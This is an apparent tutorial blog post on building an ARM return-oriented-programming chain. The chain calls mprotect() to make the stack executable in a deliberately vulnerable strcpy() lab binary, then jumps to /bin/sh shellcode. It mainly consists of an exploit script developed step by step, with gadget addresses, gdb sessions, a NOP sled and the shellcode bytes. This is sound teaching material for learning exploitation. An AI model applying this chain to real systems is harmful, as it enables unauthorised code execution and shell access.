

# :skull: Invoking mprotect() using ROP Chains in ARM

---

*ARM ROP chain calling mprotect to defeat NX.*

# Invoking mprotect() using ROP Chains in ARM

Hello and Welcome Back,

Today we will be going through something painful . To be honest it is not that painful but interesting. So In this article, we will making our own ROP chain to invoke mprotect(). I will explain all of this So don’t worry but before that, you need some basics

What I meant by basics is that you need have some knowledge about exploiting basic buffer overflows in ARM and also should be familiar with ARM ROP Chains

If you don’t have this knowledge, please ARM yourself . For ROP Chains I highly recommend reading this article below by myself, I promise you it’s worth your 25 minutes.

>

So, these are the prerequisites for reading this article. Now let’s dive into our topic.

## Introduction to Mprotect()

Most of you guys should have an idea of mprotect() that’s why you even clicked this right?? If you don’t let me explain.

For this, I will use the Online Linux man page

>

“The *mprotect*() function shall change the access protections to be that specified by *prot* for those whole pages containing any part of the address space of the process starting at address *addr* and continuing for *len* bytes.”

Well understood ??

Sorry, I was just kidding. So Simply put mprotect() is a function that can be used to alter the protection for a memory region. For example, it can change a selective memory region with “read” permission to have “write” permission. It accepts three parameters they are mentioned below

*addr* : Is the starting address of the region for which the protection has to be changed.

*len* : Is the length of the region, in bytes, whose protection has to be changed.

*prot* : Is the desired protection of the memory-mapped region.

>

`int mprotect(void addr*, size_t *len*, int *prot*);`

We will be talking more about this function later . This is enough for now

So the main question here is why are we even using this function and What’s the purpose of using the function in our Exploitation ??

In the earlier article, I wrote about ARM ROP chains. If you think about why we used ROP chains, the main reason was to bypass NX (No Execute). NX makes our stack non-executable So that we can’t execute our shellcode. To Bypass this limitation we came up with ROP Chains to invoke other functions like the system() function that gave us access to spawning a shell. But that are some cons to this attack. Can you guess?

The things we can do with these simple ROP chains (Invoking the system() ) are somehow limited. Shortly, We don’t have complete freedom as our shellcode gives us. Imagine if you want a reverse shell connection we can easily do this with our shellcode. The things we can do with our shellcode are more flexible.But in our case NX is enabled so to execute our shellcode we need our stack to executable. This is where mprotect() comes into play

We can use mprotect() to change the permission levels of the stack. Simply put, we can use this mprotect() function to make our stack executable again. Does that sound wonderful?

Unlike what we did with the system function, this is a bit complex because in the system function we only needed to pass one argument but here we need to pass three arguments to make our stack executable again.

Let’s again dive into our mprotect() function.The function takes 3 arguments. I don’t want to explain this so precisely and waste our precious time so I will only cover the things we need.

We need to pass on three arguments. So the first argument is the *address*. The *address* refers to the address of the region that we need to change the permission mode. The second argument is the length/size of the memory region which is applicable to the permission changes. And lastly, the third argument requires the value for the permission.

Let me explain the reason for passing those values. The r1 register requires the size of the memory region. So you can use any value that will fit our payload. The reason why I’m using the value 0x10101010 it doesn’t contain any null bytes and can fit our shellcode easily.

The value 0x00000007 is used for giving read, write and execute permission to the stack. So that we can make our stack executable.I guess everything is clear now. Now our registers contain

*r0 — Address of the stackr1–0x10101010 (Size of the memory region)r2–0x00000007 (For read,write and execute)*

Now it’s time to find the gadgets .

We can use ropper for this. I assume you guys know how to find gadgets using ropper . So let’s start finding gadgets for each register one by one.

Before that,I will be using the same binary from the last ROP chain writeup.it uses the vulnerable* strcpy()* function that leads to a buffer overflow and pc can be overwritten after 24 characters

>

#include <stdio.h>
#include <string.h>

int main(int argc, char argv)
{
char whatever[20];
strcpy(whatever, argv[1]); //vulnerability

return 0;
}

## Finding Gadgets for r1

The reason I m finding gadgets for r1 is that because it’s the easiest one. So let’s start

I am inside my azeria labs VM and I will be using ropper to find out the gadgets. So I loaded the *libc library *into ropper and started searching for gadgets that can load data from the stack to r1. For this, we can use the gadgets that contain pop or the idr instruction.

As you can see there are many gadgets. But the third gadget seems the most suitable and simple. We will use this gadget to put the value 0x10101010(size) to the r1 register. So I will use that. You can copy this gadget to a notepad or somewhere else.

>

0x0010a1b8: pop {r1, pc};

Now let’s move on to our second gadget.

## Finding Gadgets for r0

We can look for gadgets the will load value to r0 and gives back our control (pc). We will use the same method that we did for finding the r1 gadget. We can look for gadgets from the previous result. If you look closely the second gadget will do the job for us.

>

0x0007a12c: pop {r0, r4, pc};

This will pop three values from the stack to r0,r4 and pc . We will put the address of the stack in r0 here . As always copy this gadget to somewhere. Moving on to our final gadget . This is the difficult part and I will explain why

## Finding Gadgets for r2

Moving on to our final gadget. we need to put the value *0x00000007* into our r2 register but in this case, we can’t use the POP or the IDR gadget why??

Look at the value again.The value is *“0x00000007” .*So even if we provide this value manually and try to get this value into the r2 register by any gadget it won’t work because it has null bytes. The null bytes will break our payload and the value 0x00000007 will not be copied to our r2 register.

So how will we solve this ??

We can find a gadget that will copy the value 0x00000007 into the register with breaking our exploit. For this, we can use a gadget that contains the value 0x00000007 as the hardcoded value. Any ideas?

The answer to this is the mov instruction. So we can use the mov gadget that copies that hardcoded value 0x00000007 into the r2 register. Let’s find this gadget using ropper.

>

(libc_2.19.so/ELF/ARM)> search /1/ mov

As you can see from the result there are no gadgets that copy the value 0x00000007 directly to r2 .But the gadget “mov r0, #7; pop {r4, pc}; “ can pop the value 7 (0x00000007) into r0 .So we can use this gadget to put the value to r0 and later use another gadget to move this value to r2.

>

0x000dd2ac: mov r0, #7; pop {r4, pc};

Now let’s find a gadget that copies the value from r0 to r2 .

>

(libc_2.19.so/ELF/ARM)> search mov
[INFO] Searching for gadgets: mov

I found two good gadgets for this.

>

0x000d9ef0: mov r2, r0; mov r0, r6; blx r3;
0x000d9ef0: mov r2, r0; mov r0, r6; blx r3; pop {r4, r5, r6, pc};

Now the question will be which one to choose .Hmmm I would prefer the first one because it’s simpler than the second one.

Oh, wait ??

Branches to r3 ???

We don’t even have the control of r3 and also our r0 contains 7 now. we also need to change that value back to the size. I hope you copied all the gadgets somewhere. if you did that let’s start fixing this.

## Fixing the Exploit

Let’s start writing our python script with the gadgets we have now.I will use nano for this

>

#!/usr/bin/python

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010)
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};

So this is the exploit so far. I won’t be explaining this line by line like what is a struct, libc_base, etc. Again, I highly recommend you to read the ROP chain article which I mentioned at the start of this article.

Here libc_base variable contains the libc base address and the payload is crafted into the exp variable. So after overwriting the pc we put the address of our first gadget.

The script will put the value 0x10101010 into r1 and gives back the control so that we can execute our next gadget.

Next, we can put the address of the stack to the r0 register.To find this address load the program into gdb, put a bp at main, and run it.

>

pi@raspberrypi:~/asm/bof $ gdb ./bof-rop
GNU gdb (Raspbian 7.7.1+dfsg-5+rpi1) 7.7.1
Copyright © 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law. Type “show copying”
and “show warranty” for details.
This GDB was configured as “arm-linux-gnueabihf”.
Type “show configuration” for configuration details.
For bug reporting instructions, please see:
<>.
Find the GDB manual and other documentation resources online at:
<>.
For help, type “help”.
Type “apropos word” to search for commands related to “word”…
[*] No debugging session active
GEF for linux ready, type `gef’ to start, `gef config’ to configure
56 commands loaded for GDB 7.7.1 using Python engine 2.7
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./bof-rop…(no debugging symbols found)…done.
gef> b main
Breakpoint 1 at 0x10420
gef> r aaa

When it hits the bp use the vmmap command to inspect the address of the stack

The address at the start section is the address that we need. If you look closely at the permissions of the stack it says “*rw-”. *This indicates that the stack has* read* and *write* permission but not *execute* permission. Now let’s modify the exploit

>

#!/usr/bin/python

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010) #size
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};
exp += struct.pack(“<I”,0xbefdf000) #stack base address
exp +=(“AAAA”)
exp += struct.pack()

Now, Let’s add our other gadgets.

>

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010) #size
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};
exp += struct.pack(“<I”,0xbefdf000) #stack base address
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x000dd2ac) # mov r0, #7; pop {r4, pc};
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x000d9ef0) # mov r2, r0; mov r0, r6; blx r3;

All gadgets have been added. Now let’s try to fix our problems

Firstly, we need to fix the branching problem. To fix this we need to control r3 so that it will branch to that we control. So let’s find a gadget that can help us to control r3

>

0x00019270: pop {r3, pc};

This is the simplest gadget ever !!!!!!. So this will pop something to r3 and pc. The next question is what will we put in r3. Any guess?

Here we can put something in r3 so that it won’t change the values of other registers and also doesn’t mess up the flow. This can be achieved with the help of simple “*pop {pc} ” instruction . *Let’s find this gadget using ropper again

>

0x0002df80: pop {r7, pc};

This was the only simple instruction that gives back the control without much complication as r7 is a useless register for us and we don’t care about the value in r7 anyway.

It’s time to modify our exploit script now.

## Get Ajin Deepak (AD2001)’s stories in your inbox

Join Medium for free to get updates from this writer.

Remember me for faster sign in

Now you will be thinking about where to insert these new gadgets you can pretty much add these gadgets anywhere before the last instruction because it won’t affect our execution flow Afterall as they give back the control of pc . I will be inserting these new gadgets after the second gadget (pop {r0, r4, pc};)

>

#!/usr/bin/python

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010) #size
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};
exp += struct.pack(“<I”,0xbefdf000) #stack base address
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc + 0x00019270) # pop {r3,pc}; #Added gadget
exp += struct.pack(“<I”,base_libc + 0x0002df80) # address of pop {r7,pc};
exp += struct.pack(“<I”,base_libc+0x000dd2ac) # mov r0, #7; pop {r4, pc};
exp +=(“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x000d9ef0) # mov r2, r0; mov r0, r6; blx r3;
exp += (“AAAA”)
exp += NEXT INSTRUCTION

So we added the gadget and this will solve our branching problem gives back the control.

Let’s move on to the next issue. As you know we made use of r0 to copy the value 7 to r2. So This changed the value of r0 to 7 but we need the value of r0 to be the address of the stack so that we can successfully call the mprotect() function.

There’s an easy fix here we just need to rearrange these gadgets I will show you what I mean. Let’s modify the exploit again

>

#!/usr/bin/python

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010) #size
exp += struct.pack(“<I”,base_libc+0x000dd2ac) # mov r0, #7; pop {r4, pc}; )
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc + 0x00019270) # pop {r3,pc};
exp += struct.pack(“<I”,base_libc + 0x0002df80) # address of pop {r7,pc};
exp += struct.pack(“<I”,base_libc+0x000d9ef0) # mov r2, r0; mov r0, r6; blx r3;
exp +=(“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};
exp += struct.pack(“<I”,0xbefdf000) #stack base address
exp += (“AAAA”) #junk
exp += struct.pack(NEXT)

Take your time and analyze the changes I made.

I just put the gadgets that made use of the r0 register to copy the value 7 to r2 as the first instruction and rearranged the pop instruction to the last.

Let’s check if this exploit works or not . Before that put a dummy value at the next instruction this is where we will be putting the address of the mprotect() next and also change the address of the stack to an address (0xbefdf000 -> 0xbefdf080 )that doesn’t contain any null bytes for now.

>

#!/usr/bin/python

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010) #size
exp += struct.pack(“<I”,base_libc+0x000dd2ac) # mov r0, #7; pop {r4, pc}; )
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc + 0x00019270) # pop {r3,pc};
exp += struct.pack(“<I”,base_libc + 0x0002df80) # address of pop {r7,pc};
exp += struct.pack(“<I”,base_libc+0x000d9ef0) # mov r2, r0; mov r0, r6; blx r3;
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};
exp += struct.pack(“<I”,0xbefdf080) #stack base address
exp += (“AAAA”) #junk
exp += (“BBBB”) #mprotect() address

print(exp)

Load the binary into gdb ,put a break point at main using “b main” also make sure the alsr is off.

Now run the program using our python script as input

>

gef> r $(python mprotect2.py)

After hitting the bp do a disassembly and put a breakpoint at the last pop {r7, pc}.

Now continue the program by pressing c.

We hit our bp. This pop will redirect the execution to our first rop gadget.

This is the video of stepping each gadget one by one.

In the end, you can see that all the arguments are correctly placed in the registers (except r0) and the pc has been overwritten by “BBBB”

Now let’s complete our exploit by fixing the null byte and putting the address of mprotect()

We can use the gadgets from the previous article for fixing the null byte.

>

0x000fe910:add r0, r0, #0x80; pop {r3, pc};

This gadget will add 0x80 to r0 and gives the control back .So what we need to do here is that we should put a value “*0xbefdf000–0x80*”. Our gadget will add the 0x80 and make it back to “0xbefdf000” which is the really address of the stack.Let’s add this gadget to our exploit

>

#!/usr/bin/python

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010) #size
exp += struct.pack(“<I”,base_libc+0x000dd2ac) # mov r0, #7; pop {r4, pc}; )
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc + 0x00019270) # pop {r3,pc};
exp += struct.pack(“<I”,base_libc + 0x0002df80) # address of pop {r7,pc};
exp += struct.pack(“<I”,base_libc+0x000d9ef0) # mov r2, r0; mov r0, r6; blx r3;
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};
exp += struct.pack(“<I”,0xbefdf000–0x80) #stack base address
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x000fe910) #add r0, r0, #0x80; pop {r3, pc};
exp += (“AAAA”) #junk
exp += (“BBBB”) #mprotect() address

print(exp)

Now let’s find the address of mprotect() .Let’s load the binary,put a bp at main and run it

Let’s load the binary, put a bp at main, and run it. After hitting the breakpoint do a disassembly at mprotect using the “*disass”* command

>

gef> disass mprotect

Copy the address of the instruction (push {r7}) and paste it into our exploit script

>

#!/usr/bin/python

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010) #size
exp += struct.pack(“<I”,base_libc+0x000dd2ac) # mov r0, #7; pop {r4, pc}; )
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc + 0x00019270) # pop {r3,pc};
exp += struct.pack(“<I”,base_libc + 0x0002df80) # address of pop {r7,pc};
exp += struct.pack(“<I”,base_libc+0x000d9ef0) # mov r2, r0; mov r0, r6; blx r3;
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};
exp += struct.pack(“<I”,0xbefdf000–0x80) #stack base address
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x000fe910) #add r0, r0, #0x80; pop {r3, pc};
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,0xb6f41e90) #mprotect() address
exp += “BBBB” #junk

print(exp)

if the exploit runs correctly then the mprotect will be invoked and as a result, it will make the stack executable . After calling the mprotect() the execution will return so let’s add a junk value (“BBBB”) to see if it’s working

Let’s run it inside gdb

The program crashed at the address 0x00000000.Hmmm, that’s strange we will look into that in a second. Before that let’s inspect the stack with the *vmmap *command

Take a look at the stack permissions we achieved executable permission !!!!!

Now we can easily run our shellcode and get a shell . Before that let us fix this issue below

The pc is overwritten with zeroes. So where do these zeroes came from . If you take a look at the r4 register it contains the value 0x42424242 (BBBB), this was the last junk we put in our exploit.

After executing the mprotect() the execution will branch to the lr register as it’s using a blx instruction (branch link and exchange). The lr register contains the instruction pop {r4, r5, r6, pc}.

Aha, So this pop is the reason for our crash. This pop removes four elements from the top of the stack to r4, r5,r6, and pc. The reason why r4 got “BBBB” is because of this. So to control the pc we need to put 2 more junk characters and then put the address of next instruction

pop {
r4 = “BBBB”
r5 = “BBBB”
r6 = “BBBB”
pc = Next instruction
}

Let’s modify the exploit

>

#!/usr/bin/python

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010) #size
exp += struct.pack(“<I”,base_libc+0x000dd2ac) # mov r0, #7; pop {r4, pc}; )
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc + 0x00019270) # pop {r3,pc};
exp += struct.pack(“<I”,base_libc + 0x0002df80) # address of pop {r7,pc};
exp += struct.pack(“<I”,base_libc+0x000d9ef0) # mov r2, r0; mov r0, r6; blx r3;
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};
exp += struct.pack(“<I”,0xbefdf000–0x80) #stack base address
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x000fe910) #add r0, r0, #0x80; pop {r3, pc};
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,0xb6f41e90) #mprotect() address
exp += “BBBB” #junk
exp += “BBBB” #junk
exp += “BBBB” #junk
exp += “DDDD” #pc

print(exp)

Now let’s run this exploit using gdb again

*N*

Nice, pc is overwritten with “DDDD”. Everything is almost done now So let’s add the shellcode and get a shell .

## The Final Exploit

Let’s add our shellcode . i will use the shellcode below

>

shellcode = “\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78”

I will add some nop slides too to make our exploit failproof And also Let’s find a suitable place to put the shellcode. For this, i will input some junk characters in the exploit

>

#!/usr/bin/python

shellcode = “\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78”
nops = “\xe1\xa0\x10\x01” * 10

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010) #size
exp += struct.pack(“<I”,base_libc+0x000dd2ac) # mov r0, #7; pop {r4, pc}; )
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc + 0x00019270) # pop {r3,pc};
exp += struct.pack(“<I”,base_libc + 0x0002df80) # address of pop {r7,pc};
exp += struct.pack(“<I”,base_libc+0x000d9ef0) # mov r2, r0; mov r0, r6; blx r3;
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};
exp += struct.pack(“<I”,0xbefdf000–0x80) #stack base address
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x000fe910) #add r0, r0, #0x80; pop {r3, pc};
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,0xb6f41e90) #mprotect() address
exp += “BBBB” #junk
exp += “BBBB” #junk
exp += “BBBB” #junk
exp += “A” * 24
exp += nops
exp += shellcode
exp += “AAAA”

Let’s run it using gdb and inspect the stack to find a suitable place.

The location 0xbefff1f4 seems like a suitable place as it contains our nop slide. Let’s put this as the starting of our exploit. So we can put this address as the next address to pc after the mprotect() call. This will redirect the execution to “0xbefff1f4” and executes the shellcode. Let me change modify my exploit for the last time.

>

#!/usr/bin/python

shellcode = “\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78”
nops = “\xe1\xa0\x10\x01” * 10

import struct

base_libc = 0xb6e74000

exp = “A” * 24
exp += struct.pack(“<I”,base_libc+0x0010a1b8) # pop {r1, pc};
exp += struct.pack(“<I”,0x10101010) #size
exp += struct.pack(“<I”,base_libc+0x000dd2ac) # mov r0, #7; pop {r4, pc}; )
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc + 0x00019270) # pop {r3,pc};
exp += struct.pack(“<I”,base_libc + 0x0002df80) # address of pop {r7,pc};
exp += struct.pack(“<I”,base_libc+0x000d9ef0) # mov r2, r0; mov r0, r6; blx r3;
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x0007a12c) #pop {r0, r4, pc};
exp += struct.pack(“<I”,0xbefdf000–0x80) #stack base address
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,base_libc+0x000fe910) #add r0, r0, #0x80; pop {r3, pc};
exp += (“AAAA”) #junk
exp += struct.pack(“<I”,0xb6f41e90) #mprotect() address
exp += “BBBB” #junk
exp += “BBBB” #junk
exp += “BBBB” #junk
exp += struct.pack(“<I”,0xbefff1f4) #starting of the exploit
exp += “A” * 24
exp += nops
exp += shellcode
exp += “AAAA” #junk fillings

print(exp)

This is the final exploit script. Let’s run this outside gdb (disable aslr)

At last, we got our shell !!!!!!!

---
